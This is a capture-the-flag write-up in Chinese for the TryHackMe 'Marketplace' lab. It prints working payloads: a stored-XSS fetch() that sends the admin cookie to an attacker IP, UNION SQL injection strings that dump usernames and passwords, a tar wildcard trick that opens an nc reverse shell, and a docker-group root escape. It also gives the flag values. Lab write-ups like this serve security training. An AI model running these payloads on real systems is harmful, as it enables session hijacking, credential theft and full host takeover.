# The Marketplace
## 0x 01 ROOM描述

```
The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.
```

## 0x 02 信息收集

靶机IP：

10.81.189.170

使用[GoAttack](https://github.com/dragonkeep/GoAttack/)进行扫描：

端口扫描结果发现开放了80端口Web服务、22端口SSH服务以及32768的HTTP服务（好像跟80端口内容一致）。



目录扫描结果发现存在`/admin`路径403无法访问



## 0x 03 渗透流程

访问80端口服务，是一个类似购物平台的服务



右上角发现存在注册功能，尝试注册用户`test/test`



登录后存在`New listing`功能



尝试插入XSS payload

```
<script>alert("dragonkeep")</script>
```



发现成功执行`alert`函数



创建的`listing`存在举报功能，并且该功能admin用户会进行审核。



根据该功能结合XSS，使用`fetch`函数构造恶意XSS payload获取admin Cookie

```
<script>fetch('http://192.168.197.102:8000/steal?cookie=' + btoa(document.cookie));</script>
```

本地开启一个Python 的HTTP服务用于接收Cookie

```
python -m http.server 8000
```



成功获取管理员用户michael的Cookie



修改浏览器Cookie并访问/admin目录



成功登录到管理员用户，并获取flag



> THM\{c37a63895910e478f28669b048c348d5\}

测试参数user，发现存在SQL语句报错，尝试进行SQL注入



尝试爆破字列数

```
0 UNION SELECT 1,2,3,4 —
```



```
0 UNION SELECT 1,group_concat(SCHEMA_NAME),3,4 from INFORMATION_SCHEMA.SCHEMATA -- -
```



```
0 UNION SELECT 1, group_concat(TABLE_NAME),3,4 from information_schema.tables where table_schema = 'marketplace' -- -
```



```
0 UNION SELECT 1,group_concat(COLUMN_NAME),3,4 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' -- -
```



获取用户名和密码：

```
0 UNION SELECT 1,group_concat(username),3,4 from marketplace.users-- -
0 UNION SELECT 1,group_concat(username,':',password),3,4 from marketplace.users-- -
```



```
0 UNION SELECT 1, group_concat(id, ':', is_read, ':',message_content,':',user_from, ':',user_to, '\n'),3,4 from marketplace.messages-- -
```



获得新密码，并且告诉你是SSH服务的

```
@b_ENXkGYUCAv3zJ
```

尝试使用用户名`Jake`登录到SSH服务



>  THM\{c3648ee7af1369676e3e4b15da6dc0b4\}

使用`sudo -l`查看sudo可以执行的指令，发现存在备份脚本`/opt/backups/backup.sh`，并且存在tar指令通配符漏洞



```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.197.102 1234 >/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```



开启nc监听







发现用户michael在docker组当中,开启tty后直接docker提权了

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```



> THM\{d4f76179c80c0dcf46e0f8e43c9abd62\}

## 0x 04 All Flags

Admin

> THM\{c37a63895910e478f28669b048c348d5\}

User.txt

>  THM\{c3648ee7af1369676e3e4b15da6dc0b4\}

Root.txt

>  THM\{d4f76179c80c0dcf46e0f8e43c9abd62\}